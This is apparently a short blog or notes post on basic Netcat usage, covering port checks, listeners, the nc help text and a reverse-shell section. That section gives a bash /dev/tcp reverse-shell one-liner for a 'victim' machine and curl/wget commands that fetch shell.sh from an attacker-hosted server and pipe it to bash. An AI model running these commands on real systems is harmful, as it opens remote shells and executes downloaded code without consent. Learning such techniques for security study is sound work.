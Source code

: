 ```yaml
---
title: "[Connection] Netcat basic usage"
published: 2024-06-16
description: 'A networking connection tools Netcat with basic usage'
tags: [Security, Networking, Netcat]
category: Networking
draft: false
---
```


# [Connection] Netcat

## Check target port avaiable
```bash
nc -nv 192.168.0.12 8080

nc -nv -w 3 192.168.0.12 8080 # Faster die time if target not open
```

## Check connections
```bash
nc jupiter.challenges.picoctf.org 64287
```

## Open current port
```bash
nc -lvnp 8080
```

## Perform Reverse Shell
https://www.revshells.com/

1. In your machine, run the nc listener, assume you are open port `8080`
```bash
nc -lvnp 8080
```

2. In victims machine, run the target code and done
```bash
sh -i >& /dev/tcp/192.168.80.105/8080 0>&1
```

3. (Optional) In case, you may use `python` or npm `serve` to host a simple web server
```bash 
python3 -m http.server 8080

serve -p 8080
```

4. (Optional) In victim machine, use `wget`, `curl` or `Invoke-WebRequest`
```bash
wget http://172.31.206.223:8080/shell.sh
curl http://172.31.206.223:8080/shell.sh

curl%20http://172.31.206.223:8080/shell.sh|bash

Invoke-WebRequest http://172.31.206.223:8080/shell.sh -OutFile shell.sh | bash shell.sh
```


## Overall help
```md
[v1.10-47]
connect to somewhere:   nc [-options] hostname port[s] [ports] ...
listen for inbound:     nc -l -p port [-options] [hostname] [port]
options:
        -c shell commands       as `-e'; use /bin/sh to exec [dangerous!!]
        -e filename             program to exec after connect [dangerous!!]
        -b                      allow broadcasts
        -g gateway              source-routing hop point[s], up to 8
        -G num                  source-routing pointer: 4, 8, 12, ...
        -h                      this cruft
        -i secs                 delay interval for lines sent, ports scanned
        -k                      set keepalive option on socket
        -l                      listen mode, for inbound connects
        -n                      numeric-only IP addresses, no DNS
        -o file                 hex dump of traffic
        -p port                 local port number
        -r                      randomize local and remote ports
        -q secs                 quit after EOF on stdin and delay of secs
        -s addr                 local source address
        -T tos                  set Type Of Service
        -t                      answer TELNET negotiation
        -u                      UDP mode
        -v                      verbose [use twice to be more verbose]
        -w secs                 timeout for connects and final net reads
        -C                      Send CRLF as line-ending
        -z                      zero-I/O mode [used for scanning]
port numbers can be individual or ranges: lo-hi [inclusive];
hyphens in port names must be backslash escaped (e.g. 'ftp\-data').
```
